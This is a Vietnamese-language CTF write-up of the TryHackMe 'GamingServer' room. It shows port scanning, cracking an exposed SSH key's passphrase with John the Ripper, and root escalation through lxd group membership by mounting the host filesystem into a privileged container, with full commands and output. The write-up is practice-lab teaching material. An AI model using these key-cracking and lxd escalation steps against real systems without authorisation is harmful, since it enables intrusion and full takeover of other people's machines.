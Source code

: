 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - GamingServer"
date: "2021-11-17"
tags: [
  "tryhackme",
  "web",
  "linux",
  "ssh",
  "lxd",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2021-11-17-THM-GamingServer/1.png)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - GamingServer](https://tryhackme.com/room/gamingserver)

## Reconnaissance

Vẫn như thông thường, việc đầu tiên là quét cổng.

```py
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Chỉ có 2 port nên tôi sẽ bắt đầu với web server. Có vẻ đây là trang web của 1 tựa game, tôi thử check qua các path đơn giản thì tôi tìm được */robots.txt* và bên trong đó là */uploads*. 

![uploads](/assets/img/2021-11-17-THM-GamingServer/2.png)

Tôi có 1 file dict là 1 list các từ thì có thể sẽ được dùng làm wordlist để bruteforce, 1 file txt và 1 bức ảnh. Cũng không có gì đặc biệt ở đây. Thử dùng [dirsearch](https://github.com/maurosoria/dirsearch) để check xem còn path nào nữa không, tôi tìm được */secret/*. Trong này có 1 file rsa key. Tôi có thể dùng key này để login ssh chăng. Nhưng hiện tại tôi chưa có username nào. 

Loanh quanh web 1 lúc thì tôi đã tìm được 1 cái tên trong source web. 

`<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->`

Tuy nhiên, khi thử login ssh tôi được yêu cầu phải có passphrase. Vì vậy tôi sẽ dùng __John-the-Ripper__ để crack passphrase từ key trên.

## SSH

```py
┌──(neo㉿kali)-[~]
└─$ ssh2john key > id_rsa.hash                                                                   
┌──(neo㉿kali)-[~]
└─$ john --wordlist=dict.lst id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******          (key)     
1g 0:00:00:00 DONE (2022-08-04 22:54) 5.000g/s 1115p/s 1115c/s 1115C/s 2003
```

Login ssh và tôi có __user flag__

```py
john@exploitable:~$ ls
user.txt
```

## Privilege escalation

```py
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Tôi để ý user John nằm trong group `lxd`, đây cũng là 1 exploit khá hay nhưng trước hết tôi sẽ thử các exploit phổ biến trước, nếu không thể thì tôi sẽ quay lại `lxd`. Tuy nhiên sau 1 lúc loay hoay với `sudo -l` hay tìm SUID đều không có kết quả, tôi sẽ quay lại `lxd`. 

`lxd` về bản chất thì tương tự như Docker tuy nhiên nó có thể chứa được cả hệ điều hành trong 1 container. Và với `lxd` tôi sẽ làm theo hướng dẫn ở [đây](https://www.hackingarticles.in/lxd-privilege-escalation/)

Đầu tiên tải build-alpine:

```py
┌──(neo㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
--2022-08-05 03:03:48--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8060 (7.9K) [text/plain]
Saving to: ‘build-alpine’

build-alpine                                    100%[====================================================================================================>]   7.87K  --.-KB/s    in 0.001s  

2022-08-05 03:03:48 (6.13 MB/s) - ‘build-alpine’ saved [8060/8060]
```

Sau đó build container:

```py
┌──(root㉿kali)-[/home/neo]
└─# ./build-alpine 
Determining the latest release... v3.16
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.16/main/x86_64
Downloading apk-tools-static-2.12.9-r3.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.4-r1.apk
...
```

Sau khi build xong thì tôi sẽ có được 1 container như thế này:

```py
┌──(root㉿kali)-[/home/neo]
└─# ll
total 4228
-rw-r--r-- 1 root root 3203668 Aug  5 03:07 alpine-v3.16-x86_64-20220805_0307.tar.gz
```

Việc tiếp theo là tạo http server bằng python để upload nó lên remote machine:

```py
john@exploitable:~$ wget http://10.18.3.74:9000/alpine-v3.16-x86_64-20220805_0307.tar.gz
--2022-08-05 07:10:52--  http://10.18.3.74:9000/alpine-v3.16-x86_64-20220805_0307.tar.gz
Connecting to 10.18.3.74:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3203668 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.16-x86_64-20220805_0307.tar.gz’

alpine-v3.16-x86_64-20220805_0307.tar.gz        100%[====================================================================================================>]   3.05M   614KB/s    in 5.5s    

2022-08-05 07:10:58 (571 KB/s) - ‘alpine-v3.16-x86_64-20220805_0307.tar.gz’ saved [3203668/3203668]
```

Sau đó thì thêm image vào lxd và thử kiểm tra xem lxd đã nhận image chưa:

```py
john@exploitable:/var/tmp$ lxc image import alpine-v3.16-x86_64-20220805_0307.tar.gz --alias myimage
Image imported with fingerprint: 963724185ee69c3baf96c05771e0e4e0fdcbb4b75bed127ab48877a7533ac0b6
john@exploitable:/var/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 963724185ee6 | no     | alpine v3.16 (20220805_03:07) | x86_64 | 3.06MB | Aug 5, 2022 at 7:45am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
```

Sau đó làm theo các câu lệnh như exploit bên trên:

```py
john@exploitable:/var/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/var/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/var/tmp$ lxc start ignite
john@exploitable:/var/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```

## Tổng kết

Qua bài này, tôi biết thêm về `lxd` container và cách leo thang đặc quyền với nó. Và nó cũng rất hữu ích để tạo container cho cả hệ điều hành và tôi có thể đẩy nó lên bất cứ đâu mà không phải cài lại cả hệ điều hành.



